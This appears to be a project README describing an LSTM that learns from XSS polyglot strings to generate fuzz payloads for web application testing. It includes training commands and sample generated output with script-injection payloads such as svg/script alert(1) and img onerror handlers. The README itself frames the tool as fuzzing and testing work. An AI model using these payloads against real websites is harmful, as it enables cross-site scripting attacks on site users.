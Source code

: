 # Generating XSS Payloads from Polyglot Files using Deep Learning

The scripts below serve to generate fuzz data for websites by training a neural network designed and implemented in
Keras to mimic the statstical patterns evident in the sequences of characters that make up an XSS payload. The core 
argument here is that since the text that makes up an XSS payload is essentially a sequence of numbers/characters, and 
the selection probability of each characters in each position it appears can be modelled as a 
sequence prediction problem for a LSTM with rich enough representation mechanisms for a given data set. I use a web 
hacking experts list of preffered polyglot strings to train the network here.

In a real web attack/testing scenario this network I believe can offer a good source of fuzz data 
honed by the contributive efforts of an entire web hacking community and dynamically adjusted to its 
trends and favored HTML/java/SVN trouble causing grammar hotspots i.e. perhaps web apps are toppling dew 
to iframe onclick event handling more than SVN due to context of certain framework - you can then spin this 
up and train it on some dirty/troublesome iframe tags and you will have a good source of live/random fuzz data directly 
hitting the iframe part of the grammar, further more you can probably very easily mix in and take out parts 
of the grammar as you please by adjusting the training sample.
 

## How to use
The project includes two scripts

* `learn_payloads.py`  used to train the neural net on a set of payloads, this produces a set of weights.
* `generate_payloads.py` used to generate payloads based on a trained set of weights.  

### Training the Neural Net
In order to get the net to spit out payloads that look "polyglotty" enough (according to the structural set up I have) all you need to do is run the `learn_payloads.py` script and it will sweep up all the strings you have in a given file and try to learn the rules used to generate them so it can produce more like that.

Here's how its done:
```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12/run2$ ../../../learn_payloads.py ../../data/jhaddix.txt 
Using TensorFlow backend.
['\t', '\n', ' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '}', '~', '\x80', '\x82', '\x85', '\x86', '\x89', '\x8e', '\x8f', '\x90', '\x92', '\x93', '\x98', '\x9d', '\xa2', '\xaf', '\xbc', '\xbd', '\xbe', '\xc2', '\xc3', '\xe2']
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
12 1
116
[*] training model...
Epoch 1/50
2018-03-12 21:00:06.275223: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
 3450/36884 [=>............................] - ETA: 8:11 - loss: 4.1146^[c
 3500/36884 [=>............................] - ETA: 8:10 - loss: 4.1133
 3550/36884 [=>............................] - ETA: 8:09 - loss: 4.1095

```

This will produce a list of weights files (used to set up the neural net from scratch if you need to use it later):

```
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:48 seq-12-weights-improvement-01-3.8815.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:54 seq-12-weights-improvement-02-3.4597.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:00 seq-12-weights-improvement-03-3.0045.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:06 seq-12-weights-improvement-04-2.6040.hdf5
...
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:17 seq-12-weights-improvement-19-0.5382.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:20 seq-12-weights-improvement-20-0.5177.hdf5

```

### Generating Payloads
In order to generate payloads you need to run the `generate_payloads.py` script, it takes in the original data file you used to train the net and a weight configuration you'd like to use (try choosing one with a low enough weight to satisfy your payload generatio nneeds) here's how to do that:

```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12$ ../../generate_payloads.py ../data/jhaddix.txt seq-12-weights-improvement-50-0.3361.hdf5 
Using TensorFlow backend.
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
2018-03-12 21:10:21.244253: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
[*] Seed: 'e?\/onerror '

= alert(1)???
<svg><script ?>alert(1)
<input talue="``onmouseover=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=al
e="x:">
<--`<img/src=` onerror=alert(1)>/script>">script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementB
TML=innerHTML</script>

```
*some stderr output has been supressed, tensor flow and keras like to make a lot of noise hehe

## Dependencies

The only thing you need to get this up and running is a working python install and whatever else you need to run Keras, smoothly.
Python Keras : https://keras.io/ 


Further Reading and Similar ideas:
*  http://www.ieeeconfpublishing.org/cpir/UploadedFiles/ver11.0.pdf 
*  http://machinelearningmastery.com/text-generation-lstm-recurrent-neural-networks-python-keras/ 
*  https://0day.work/using-neural-networks-for-password-cracking/ 
